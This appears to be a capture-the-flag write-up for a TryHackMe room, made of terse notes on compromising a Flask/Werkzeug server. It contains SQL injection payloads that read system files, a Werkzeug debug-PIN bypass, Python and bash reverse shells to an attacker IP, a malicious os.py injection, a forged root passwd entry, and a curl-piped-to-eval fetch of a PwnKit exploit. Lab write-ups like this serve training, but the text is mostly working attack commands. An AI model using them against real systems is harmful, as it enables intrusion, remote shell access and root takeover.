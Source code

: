 # https://tryhackme.com/jr/surfingyetiiscomingtotown
+ What is the user flag?`THM{SQli_SsRF_2_WeRkZeuG_PiN_ExPloit}`
+ What is the root flag?
+ What is the yetikey4.txt flag?

## ENUMERATION PORT 8000
+ URL SQLInjection `http://10.10.35.168:8000/download?id=`
+ Using `sqlmap` database:
    ```
    [*] elfimages
    [*] information_schema
    [*] performance_schema
    ```
+ Dump `elfimages.elves`:
    ```
    +----+--------+------------------------------------------------+
    | id | url_id | url                                            |
    +----+--------+------------------------------------------------+
    | 1  | 1      | http://127.0.0.1:8000/static/imgs/mcblue1.svg  |
    | 2  | 2      | http://127.0.0.1:8000/static/imgs/mcblue2.svg  |
    | 3  | 3      | http://127.0.0.1:8000/static/imgs/mcblue3.svg  |
    | 4  | 4      | http://127.0.0.1:8000/static/imgs/suspects.png |
    +----+--------+------------------------------------------------+
    ```
+ current user: `mcskidy@localhost`
+ hostname: `proddb`

# EXPLOIT
+ Trying to by pass PIN for werkerzeug 3.0.0 console.
+ Looting The File using SQL Injection File Export (LFI / SSRF):
    - http://10.10.66.138:8000/download?id=' UNION ALL SELECT 'file:///proc/sys/kernel/random/boot_id
    - http://10.10.66.138:8000/download?id=' UNION ALL SELECT 'file:///sys/class/net/eth0/address `02:e7:a8:eb:9a:87`
    - http://10.10.66.138:8000/download?id=' UNION ALL SELECT 'file:///etc/machine-id `aee6189caee449718070b58132f2e4ba`

    ```bash
    $python -c "print(0x02e7a8eb9a87)" 
    3193994713735
    $python gen_machine_id.py 
    b'aee6189caee449718070b58132f2e4ba'
    $python werkzeug-debug-console-bypass/werkzeug-pin-bypass.py 
    Pin: 664-214-737
    ```

### PRIVILEGES ESCALATION
+ Python Reverse Shell 
    ```python
    python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.37.160",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
    ```
    + inject application by adding python file os.py
        - add this line to reverse shell os.py
        ```python
        #!/usr/bin/python3
        import os
        os.system('/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/1234 0>&1"')
        ```
os.system('/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/3117 0>&1"')
mcskidy@proddb:/dev/shm$ openssl passwd -1 -salt mcskidy dodol123
mcskidy:$1$mcskidy$FFrXzk8I7YLmzrU3mA9YX/:0:0::/home/mcskidy:/bin/bash
python3 -c 'import crypt;print(crypt.crypt("somesecret", crypt.mksalt(crypt.METHOD_SHA512)))'
python3 -c 'import crypt,getpass;print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'
eval "$(curl -s http://10.4.37.160:81/CVE-2021-4034/cve-2021-4034.sh)"
